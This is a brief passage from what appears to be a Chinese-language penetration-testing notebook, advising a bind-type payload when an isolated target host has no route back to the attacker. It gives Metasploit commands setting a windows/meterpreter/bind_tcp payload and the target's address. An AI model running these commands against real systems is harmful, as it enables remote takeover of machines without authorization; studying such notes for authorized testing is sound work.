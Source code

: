 	隔离主机一般与攻击机无双向路由，payload设置为bind让靶机监听。
	>set payload windows/meterpreter/bind_tcp
	>set RHOST 隔离机IP
![image](/assets/Pentest_Note/master/img/369.png)
